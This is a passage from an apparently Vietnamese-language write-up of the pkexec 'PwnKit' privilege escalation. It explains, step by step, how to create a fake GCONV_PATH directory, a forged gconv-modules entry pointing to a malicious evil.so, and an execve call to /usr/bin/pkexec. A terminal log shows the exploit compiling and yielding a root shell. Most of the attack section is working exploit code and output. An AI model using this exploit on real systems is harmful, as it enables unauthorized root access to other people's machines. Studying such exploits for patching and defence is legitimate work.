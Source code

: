 **3. Tạo thư mục và tập tin giả**

```c
system("mkdir GCONV_PATH=.");
system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
```

- mkdir GCONV_PATH=.: Tạo một thư mục giả mạo có tên GCONV_PATH=.
- touch GCONV_PATH=./evildir: Tạo một tập tin có tên evildir (dùng để đánh lừa pkexec).
- chmod 777 GCONV_PATH=./evildir: Cấp quyền đọc, ghi, thực thi cho tất cả người dùng.

**4. Tạo thư mục chứa module gconv giả**

```c
system("mkdir " DIR);
system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
```

- mkdir evildir: Tạo thư mục evildir, nơi chứa thư viện gconv giả.
- echo 'module INTERNAL ryaagard// evil 2' > evildir/gconv-modules:
  - Khai báo một module gconv giả có tên ryaagard.
  - Gán module ryaagard trỏ đến thư viện độc hại evil.so.
  - INTERNAL: Đánh dấu module này không thực hiện chuyển đổi thực sự, chỉ dùng để tải thư viện.

**5. Sao chép thư viện độc hại**

```c
system("cp " EVILSO ".so " DIR);
```

- cp evil.so evildir/: Chép thư viện độc hại (evil.so) vào thư mục evildir/.

**6. Thực thi pkexec với môi trường giả**

```c
execve(BIN, argv, envp);
```

- Gọi execve() để chạy /usr/bin/pkexec với danh sách biến môi trường envp[].

pkexec sẽ:
- Tìm kiếm module gconv dựa vào GCONV_PATH=.
- Tải gconv-modules giả.
- Nạp thư viện evil.so.
- Chạy mã trong evil.so, giúp kẻ tấn công thực thi lệnh với quyền root.

### 2.4 Khai thác

```shell
h13u@ubuntu:~/tmp$ make all
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function 'gconv_init':
evil-so.c:9:5: warning: implicit declaration of function 'setgroups'; did you mean 'getgroups'? [-Wimplicit-function-declaration]
   9 | setgroups(0);
     | ^~~~~~~~~~
     | getgroups
evil-so.c:10:5: warning: null argument where non-null required (argument 2) [-Wnonnull]
  10 | execve("/bin/sh", NULL, NULL);
     | ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function 'main':
exploit.c:23:5: warning: implicit declaration of function 'execve' [-Wimplicit-function-declaration]
  23 | execve(BIN, argv, envp);
     | ^~~~~~
h13u@ubuntu:~/tmp$ ls
evil.so evil-so.c exploit exploit.c Makefile
h13u@ubuntu:~/tmp$ ./exploit
# id
uid=0(root) gid=0(root) groups=0(root)
```